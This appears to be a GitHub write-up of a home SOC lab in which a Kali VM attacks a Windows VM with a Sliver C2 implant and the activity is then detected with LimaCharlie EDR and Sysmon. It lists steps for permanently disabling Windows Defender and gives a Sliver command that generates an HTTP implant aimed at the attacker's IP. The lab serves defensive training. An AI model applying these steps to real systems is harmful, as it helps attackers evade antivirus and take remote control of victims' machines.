 # SOC Analyst LimaCharlie EDR Lab

## Objective
The scope of this project was to create a home lab of virtual machines. The Kali-Linux VM as the attacker and the WindowVM as the victim. I used LimaCharlie EDR and Sysmon to work as my threat detection engine as well as track incoming telemetry and for logging. I used Sliver to generate C2 payloads, implant harmful files and operate the host machine in the background.

### Skills Learned

- Completely disable Defender on Windows
- Set up LimaCharlie EDR and Sysmon
- Silver to implant and activate .exe files
- Build D&R rules based on events
- Block attacks with custom rules

### Tools Used

- Virtualbox/ KaliLinux2024/ Windows 10
- LimaCharlie EDR/ Sliver Server/ Sysmon
<br/>
<br/>

## Setting up Attacker and Victim Virtual Machine
![Screenshot 2025-02-09 175701](https://github.com/user-attachments/assets/98966ca1-270b-4b29-bf0d-bb2c5d2d3c7e)

## Disabling Windows Defender
| Windows Security| Group Policy Editor| Admin CMD| Registry Editor|
|----------------------------|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 183735](https://github.com/user-attachments/assets/87efc3d6-fd62-4b42-bd77-51ef242af75f)|![Screenshot 2025-02-09 185319](https://github.com/user-attachments/assets/33c59b24-0bd8-4b7c-b68b-590bfc5b7e25)|![Screenshot 2025-02-09 185653](https://github.com/user-attachments/assets/779e2724-e792-4aa0-be0a-767e597c3337)|![Screenshot 2025-02-09 190849](https://github.com/user-attachments/assets/cfad9518-6daa-4633-bfc7-d09dc39280ab)|

<br/>

- Disable Tamper Protection/ All Virus & threat protection settings.
- Permanently Disable Defender via Group Policy Editor (Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus).
- Safeboot then disabled services in the Registry (Services\Sense,WdBoot,WinDefend,WdNisDrv,WdNisSvc,WdFilter).
  
<br/>

## Installing Sysmon in Windows VM
| Sysmon Install| LimaCharlie Install| LimaCharlie/Sysmon Event Log config|
|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 192458](https://github.com/user-attachments/assets/178f0b7e-e9bf-4274-b2c6-b6baef234a32)|![Screenshot 2025-02-09 201938](https://github.com/user-attachments/assets/07459ea8-46c0-48a1-b455-b8034452843e)|![Screenshot 2025-02-09 202231](https://github.com/user-attachments/assets/3be69ab2-dd0f-42f1-b0b2-88b7e033aacb)|

- Created a LimaCharlie organization and added a sensor for Windows.
- Configured Lima Charlie to ship the Sysmon event log alongside its own EDR telemetry.

## Setting up Attack VM
![Screenshot 2025-02-09 212656](https://github.com/user-attachments/assets/74e6fcb5-6809-48ea-ab80-ada9db5377b1)
- Installed Sliver and created a workign directory

## Attack setup against Windows VM
| Create C2 playload| Implant file transfer| Verify active implant session|
|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 215346](https://github.com/user-attachments/assets/46114902-5277-4643-adc5-5e72c342a275)|![Screenshot 2025-02-09 220319](https://github.com/user-attachments/assets/17f9cc92-24e0-4e02-8be1-cf3fe13d9846)|![Screenshot 2025-02-09 221551](https://github.com/user-attachments/assets/1b2db58d-cd5a-45f1-b78f-732d2ecbf15b)|

- Generate my C2 session payload using my Attacking VM's IP (generate --http [Linux_VM_IP] --save /opt/sliver).
- I confirm the implant config and creat a tempo web server to pull the payload down to the victim machine.
- I verify the session ID and log the session ID

## Sliver Session
![Screenshot 2025-02-09 221928](https://github.com/user-attachments/assets/e3ee6303-8b53-4b3d-9238-d6345c26a974)
- Grab basic info about the session abd that privileges my implant has (info, whoami, getprevis)

## Observing EDR Telemetry
| Processes| Network| File System|
|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 222419](https://github.com/user-attachments/assets/99999140-f7ca-4ac1-a720-1146d76d6a9b)|![Screenshot 2025-02-09 223048](https://github.com/user-attachments/assets/5ba25a3e-65b2-49e5-b128-5189639e7540)|![Screenshot 2025-02-09 223757](https://github.com/user-attachments/assets/5250f12b-6547-4b7b-8909-7d30ba50655e)|

- Checking Processes in LimaCharlie we can see the attackers C2 implant. Selecting the "FAIR_ANALOG.exe" we notice that this process doesn't carry a valid signature as it is not signed. We are also able to identify the destination IP this process is communicating with.
- We can also search the IP under Network and see that "FAIR_ANALOG.exe" is returned in the network list.
- Under File System we can check the location that the implant is running and grab the hash.

## OSINT
![Screenshot 2025-02-09 224112](https://github.com/user-attachments/assets/1de2ba44-d8a5-4eed-8d9d-535d8bbad41e)
- Inspecting the "FAIR_ANALOG.exe" file hash on Echotrail and VirusTotal comes up with zero results.
  - This does not mean that the file is not malicious. It's just not common/known in their query for the hash of the EXE. Since the payload was created by use it's not likely to appear on any OSINT tools.

## Create Detection and Response rule
| Filter Timeline Event| D&R Rule| Test Event| Detection Alert|
|----------------------------|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 224334](https://github.com/user-attachments/assets/57571ecf-24c0-4490-a337-bda949b80496)|![Screenshot 2025-02-09 233939](https://github.com/user-attachments/assets/8ee28aff-8a08-4784-995f-a968f22ca0e0)|![Screenshot 2025-02-09 234039](https://github.com/user-attachments/assets/2be6f8c8-df54-43c3-a6dd-fe77eef509db)|![Screenshot 2025-02-09 234648](https://github.com/user-attachments/assets/e4ceecc5-77f7-4096-8bd7-e5820a6b00e4)|



